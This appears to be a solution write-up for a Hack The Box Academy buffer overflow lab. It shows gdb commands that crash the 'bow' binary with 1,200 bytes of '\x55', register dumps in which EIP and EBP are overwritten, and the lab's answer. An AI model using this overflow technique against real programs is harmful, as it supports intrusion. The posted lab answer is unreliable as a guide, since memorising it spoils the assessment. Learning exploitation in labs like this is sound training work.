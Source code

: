 #### Buffer

![image](https://academy.hackthebox.com/storage/modules/31/buffer_overflow_4.png)

Now we see that we have overwritten the `EIP` with our "`\x66`" characters. Next, we have to find out how much space we have for our shellcode, which then executes the commands we intend. As we control the `EIP` now, we will later overwrite it with the address pointing to our shellcode's beginning.

Q: Examine the registers and submit the address of EBP as the answer.

A: 0x55555555

**Solution**

First Connect to the Target machine using `ssh` **Note: for connecting to ssh you have to connect to academy vpn server first**.After that there you will see a binary name `bow` so open it in `gdb` using the following command 
```shell
$ gdb -q bow
```
There use a simple `run` command and see its output and you can also see register information using `info register` command
After that use The following command there and see its output
```
(gdb) run $(python -c "print '\x55'*1200")
```
you can compare both results They are something like this
```
(gdb) info registers   
The program has no registers now.  
(gdb) run  
Starting program: /home/htb-student/bow    
  
Program received signal SIGSEGV, Segmentation fault.  
0xf7e729c8 in ?? () from /lib32/libc.so.6     <-----# simple run Results
(gdb) info registers    
eax            0x56556fd4       1448439764  
ecx            0x0      0  
edx            0xffffd090       -12144  
ebx            0x56556fd4       1448439764  
esp            0xffffd07c       0xffffd07c  
ebp            0xffffd498       0xffffd498  <----# Simple run epb value
esi            0xf7fc2000       -134471680  
edi            0x0      0  
eip            0xf7e729c8       0xf7e729c8  <----# Simple run eip value
eflags         0x10296  [ PF AF SF IF RF ]  
cs             0x23     35  
ss             0x2b     43  
ds             0x2b     43  
es             0x2b     43  
fs             0x0      0  
gs             0x63     99  
(gdb) run $(python -c "print '\x55'*1200")  
The program being debugged has been started already.  
Start it from the beginning? (y or n) y  
Starting program: /home/htb-student/bow $(python -c "print '\x55'*1200")  
  
Program received signal SIGSEGV, Segmentation fault.  
0x55555555 in ?? ()               <----# 1200 bytes of U in hex run Results
(gdb) info registers    
eax            0x1      1  
ecx            0xffffd6d0       -10544  
edx            0xffffd082       -12158  
ebx            0x55555555       1431655765  
esp            0xffffcff0       0xffffcff0  
ebp            0x55555555       0x55555555  <----# ebp value changed
```